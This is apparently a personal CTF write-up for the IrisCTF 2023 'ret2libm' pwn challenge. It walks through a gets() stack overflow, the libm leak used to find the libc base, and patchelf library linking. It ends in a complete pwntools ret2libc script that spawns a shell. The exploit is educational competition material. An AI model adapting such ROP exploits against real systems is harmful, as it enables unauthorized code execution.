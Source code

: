 +++ 
tags = ["ctf", "pwn"] 
categories = ["CTF Writeups", "pwn"] 
date = "2023-1-9" 
description = "A relatively easy `pwn` challenge similar to classic ret2libc" 
title = "ret2libm - IrisCTF 2023"
+++

# Overview

`ret2libm` was the 2nd most solved `pwn` challenge of [IrisCTF 2023](https://ctftime.org/event/1774), written by `sera`.

Description:
> I need to make a pwn? Let's go with that standard warmup rop thing... what was it... ret2libm?

We are provided with a zip file containing a binary, source code, `libc`, `libm`, and Makefile.

{{< code language="c" title="chal.c" id="1" expand="Show" collapse="Hide" isCollapsed="false" >}}
#include <math.h>
#include <stdio.h>

// gcc -fno-stack-protector -lm

int main(int argc, char* argv) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    char yours[8];

    printf("Check out my pecs: %p\n", fabs);
    printf("How about yours? ");
    gets(yours);
    printf("Let's see how they stack up.");

    return 0;
}
{{< /code >}}

{{< code language="makefile" title="Makefile" id="2" expand="Show" collapse="Hide" isCollapsed="true" >}}
chal: chal.c
    gcc -fno-stack-protector chal.c -o chal -lm
{{< /code >}}

The `gets()` function is clearly a classic buffer overflow vulnerability as it reads in any amount of bytes regardless of what the buffer `yours[8]` can actually hold. Therefore we can overwrite the return pointer `rip` and control what code it executes next.

There also isn't a canary we need to bypass.

``` 
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Using `pwngdb` we find the offset to be `16` bytes until we overwrite the return pointer.

# Exploitation

The next step is to do a classic `ret2libc`. However, there is ASLR that we need to bypass, as the `libc` library is loaded into a different address each time. The program just so happens to give us a leak from the `libm` library which *should* allow us to calculate the `libc` base address.

```c
printf("Check out my pecs: %p\n", fabs);
```

I assumed the `fabs` address would be a **constant offset** from the `libc` base address, so after finding that offset we should be able to calculate it.

{{< image src="./img/procmap.png" alt="" position="center" style="border-radius: 5px;" >}}

`libc` base shown here is `0x7f0f11c0b000`, the `fabs` leak was `0x7f0f11e2e4d0`, so calculating `fabs - libc = 0x7f0f11e2e4d0 - 0x7f0f11c0b000 = 0x2234d0` we get an offset of `0x2234d0`. So to calculate the libc base address from the fabs leak, we simply do `libc.address = fabs - 0x2234d0`

**WAIT!** - The `libm` and `libc` binary used by our linux system is probably different to the ones given! We need to patch the binary to use the provided libraries `libc-2.27.so` and `libm-2.27.so`.

`pwninit` is a popular tool for this, however, it only links the `libc` file - we need to link both `libc` and `libm`. Therefore we will use `patchelf` (which pwninit uses anyways).

Making a copy of the binary `chal_patched` and running `patchelf --add-needed libm-2.27.so chal_patched` and `patchelf --add-needed libc-2.27.so chal_patched` we have linked the binary to use those libraries instead of our system ones!If we didn't do so, our payload may work on our system, but not the remote as they are using different libraries with different addresses and sizes.

Now that we've linked the correct libraries, we need to recalculate the offset `0x7ffff7a66cf0 - 0x7ffff7644000 = 0x422cf0`.

Okay lets setup a pwntools script to automate this!

```py
from pwn import *

filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")

p = process(filepath)
input() # wait for gdb debug (gdb -p <PID>)

offset = 16
libc_offset =  0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset

print(f"{hex(libc.address) = }")
```

We can reaffirm that the address is correct by using `gdb -p <PID>` to attach to the process, and check if the calculated address is correct.

{{< figure src="./img/libcbasecalc.png" alt="" position="center" style="border-radius: 8px;" caption="<i>and it indeed is...</i>" captionPosition="left" captionStyle="" >}}

Now we have the `libc` address we can do a standard `ret2libc`. I will not go in-depth on this as it's covered a lot, check out [this amazing resource](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc) if you want to fully grasp it.

Using `ROPgadget` to find gadgets in `libc` (I chose `libc` instead of the binary as we already had its base address, didn't want to do another calculation), we find the required `pop rdi; ret` gadget as per [64 bit calling conventions](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions#64-bit) to pass the `/bin/sh` string into `system()`, and another `ret` gadget for stack alignment.

Now we simply return to libc!

```py
from pwn import *

filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")

p = process(filepath)
input() # wait for gdb debug

offset = 16
libc_offset =  0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset

print(f"{hex(libc.address) = }")

pop_rdi = libc.address + 0x000000000002164f
ret = libc.address + 0x00000000000008aa

system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh'))

payload = flat(
    b"A" * offset,
    ret, # stack alignment
    pop_rdi,
    binsh,
    system,
    0x0
)

p.sendline(payload)
p.interactive()
```

Running this we indeed get a shell!

{{< image src="./img/yayshell.png" alt="" position="center" style="border-radius: 5px;" >}}

Now all we have to do is to connect to remote and do the same ... right? Apparently not. Running the script gives us an EOF, meaning the program crashed or ended.

{{< image src="./img/verysad.png" alt="" position="center" style="border-radius: 5px;" >}}

This is the last thing we want to see - our exploit working locally, but not on remote! When this happened I first thought I didn't link the libraries correctly, but after relinking and additional testing that didn't seem to be the case. Having no other idea what it could be, I opened a ticket on the [discord server](https://discord.com/invite/TJMssbJV).

After explaining my issue, the organiser `sera` released a Dockerfile that allowed the remote enviroment to be built on your own computer! This meant we could now debug on an enviroment identical to the remote instance, and potentially find out the issue.

After doing so, my payload unfortunetly still worked without modifications, which was really weird as the enviroment was supposedly identical to the remote instance.

{{< image src="./img/whynoworklol.png" alt="" position="center" style="border-radius: 5px;" >}}

`sera` verified that the scripts work on their docker as well, so decided to award me the flag anyways regardless of it not working on remote.

{{< image src="./img/wowflag.png" alt="" position="center" style="border-radius: 5px;" >}}

First time I've just been handed the flag by organisers, even in other competitions (*cough* Pecan CTF) where challenges were literally broken and we had the solution, organisers wouldn't award points, so huge thanks to `sera` for the help and flag!

The intended solution was to use a one-gadget in the libc and a libc address already in `rax` to (i assume) calculate the offset.

# Conclusion

Overall this was a pretty fun challenge despite the hours of trying to figure out why it wouldn't work on remote, I only started learning `pwn` recently and was glad theres a CTF with `pwn` challenges I could solve.

In the end we ([PissedEmu](https://ctftime.org/team/160273)) placed `11th` on the [leaderboard](https://ctftime.org/event/1774) which I'm happy about!

Additional thanks to the organisers for hosting IrisCTF 2023, I'll be looking forward to next year's event!